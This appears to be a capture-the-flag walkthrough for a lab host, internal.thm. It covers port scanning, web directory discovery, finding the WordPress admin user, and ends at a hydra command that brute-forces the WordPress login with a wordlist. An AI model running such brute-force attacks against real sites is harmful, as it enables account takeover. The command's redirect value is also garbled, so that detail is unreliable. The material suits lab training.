 # NETWORK ENUMERATION

|                           PORT                          | STATE SERVICE REASON |                                VERSION                               |
|:-------------------------------------------------------:|:--------------------:|:--------------------------------------------------------------------:|
|                       22/tcp open                       |          ssh         | syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
|                       80/tcp open                       |         http         |                syn-ack Apache httpd 2.4.29 ((Ubuntu))                |
| Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel |                      |                                                                      |

# WEB ENUMERATION

On internal.thm, the home page is the default apache2 installation page.<br>
Using gobuster, we can find the following directories :<br>

| Path        | Info     |      |
|-------------|----------|------|
| /blog       | (Status: | 301) |
| /wordpress  | (Status: | 301) |
| /javascript | (Status: | 301) |
| /phpmyadmin | (Status: | 301) |


The /blog and the /wordpress path seems to redirect to the same wordpressblog.<br>
The /javascript seems to contain javascript code..<br>
The /phpmyadmin redirect to the phpmyadmin webapp but we don't have any credentials.<br>


The wordpress blog is mainly empty, but we can figure out one user when analysing the source code:<br>
"http://internal.thm/blog/index.php/author/admin/"<br>
the <strong>admin</strong> user<br>

## Brute force a wordpress login page

The login page can be found on the blog at : http://internal.thm/blog/wp-login.php<br>
We will use the hydra program to brute force the login form.<br>
First, we need to capture a login request.<br>
I will use burp suite but you can use whatever you want.<rb>

The post request made is :<br>
log=username&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1<br>
to the /blog/wp-login.php endpoint<br>

### HYDRA

> hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.2Fblog%thm%2Fwp-admin%2F&testcookie=1:Error"<br>
